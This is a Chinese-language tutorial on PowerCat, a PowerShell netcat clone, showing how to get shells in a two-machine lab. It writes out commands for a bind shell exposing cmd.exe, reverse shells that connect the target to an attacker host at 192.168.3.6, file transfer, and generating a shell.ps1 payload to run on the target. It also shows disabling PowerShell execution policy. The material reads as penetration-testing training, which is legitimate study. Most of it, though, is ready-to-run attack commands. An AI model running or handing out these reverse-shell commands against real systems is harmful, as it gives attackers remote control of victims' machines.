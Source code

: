 # **PowerCat**反弹**Shell**

## PowerCat介绍                                     [ ](af://n2)

PowerCat是一个powershell写的tcp/ip瑞士军刀， 看一看成ncat的powershell的实现， 然后里面也加入了众多好 用的功能， 如文件上传， smb协议支持， 中继模式， 生成payload， 端口扫描等等。

## **PowerCat**安装                                     [ ](af://n5)

### 1、下载地址

  https://github.com/besimorhino/powercat  

### 2、下载下来导入

```
 Import-Module .\powercat.ps1 
```

### 3、如果提示未能加载指定模块， 则可能是权限问题， 输入如下代码

```
Set-ExecutionPolicy Unrestricted  
```

### 4、输入如下命令可以查看帮助信息

```
powercat -h  
```

### 5、如下就是安装成功

![img](https://image.201068.xyz/assets/clip_image001-168398341552439.jpg)

## **PowerCat**命令   

```
-l 监听连接
-c 连接到侦听器
-p 要连接或监听的端口
-e 执行
-ep 执行Powershell
-r 中继。格式：“-r tcp：10.1.1.1：443”
-u 通过UDP传输数据
-dns 通过dns传输数据
-dnsft DNS故障阈值
-t 超时选项。默认值：60
-I 输入：文件路径（字符串），字节数组或字符串
-o 控制台输出类型：“主机”，“字节”或“字符串”
-of 输出文件路径
-d 连接后断开连接
-rep 中继器。断开连接后重新启动
-g 生成有效载荷
-ge 生成编码的有效载荷
-h 打印帮助消息
```

## **PowerCat**实验环境介绍                          [ ](af://n24)

两台机器

| 机器名称 | 机器**IP**   |
| -------- | ------------ |
| 攻击机器 | 192.168.3.6  |
| 目标靶机 | 192.168.3.10 |

 ![img](https://image.201068.xyz/assets/clip_image006.gif)

## **PowerCat**和**nc**正向连接                              [ ](af://n39)

### 1、靶机使用powercat监听，执行以下命令

```
  powercat -l -p 8080  -e cmd.exe -v  
```

![img](https://image.201068.xyz/assets/clip_image007.jpg)

### 2、攻击机使用nc连，执行以下命令

```
nc 192.168.3.10 8080 -vv
```

![img](https://image.201068.xyz/assets/clip_image009-168398341552442.jpg)

### 3、查看返回结果

![img](https://image.201068.xyz/assets/clip_image010-168398341552441.jpg)

## **PowerCat**和**nc**反向连接                              [ ](af://n54)

### 1、靶机使用powercat连，执行以下命令

```
  powercat -c 192.168.3.6 -p 8888 -v -e cmd.exe  
```

![img](https://image.201068.xyz/assets/clip_image011.jpg)

### 2、攻击机使用nc监听，执行以下命令

```
 nc -l -p 8888 -vv  
```

![img](https://image.201068.xyz/assets/clip_image012.jpg)

### 3、查看返回结果

![img](https://image.201068.xyz/assets/clip_image014.gif)

## **PowerCat**和**PowerCat**反向连接                        [ ](af://n69)

### 1、靶机使用powercat连，执行以下命令

```
  powercat -c 192.168.3.6 -p 9999 -v -ep  
```

![img](https://image.201068.xyz/assets/clip_image018.gif)

### 2、攻击机使用powercat监听，执行以下命令

```
powercat -l -p  9999 -v
```

![img](https://image.201068.xyz/assets/clip_image016.gif)

![img](https://image.201068.xyz/assets/clip_image019.jpg)

## **PowerCat**文件传输                                  [ ](af://n84)

### 1、靶机使用powercat监听，接收，执行以下命令

```
powercat -l -p 9999 -of test.txt -v  
```

![img](https://image.201068.xyz/assets/clip_image020.jpg)

### 2、攻击机使用powercat连，传，执行以下命令

```
powercat -c  192.168.70.8 -p 9999 -i desktop\test.txt -v 
```

![img](https://image.201068.xyz/assets/clip_image022.gif)

### 3、查看返回结果

![img](https://image.201068.xyz/assets/clip_image024.gif)

## 用**powercat**生成**payload**                               [ ](af://n99)

### 1、攻击机使用powercat执行以下命令生成payload

```
 powercat -l -p 8000 -e cmd -v -g >> shell.ps1
```

![img](https://image.201068.xyz/assets/clip_image026.gif)

### 2、攻击机使用powercat执行以下命令连接

```
powercat -c 192.168.70.7 -p 8000 -v 
```

![img](https://image.201068.xyz/assets/clip_image027.jpg)

### 3、在靶机上运行脚本

```
.\shell.ps1  
```

![img](https://image.201068.xyz/assets/clip_image029-168398341552543.gif)

### 4、查看运行结果

![img](https://image.201068.xyz/assets/clip_image031.gif)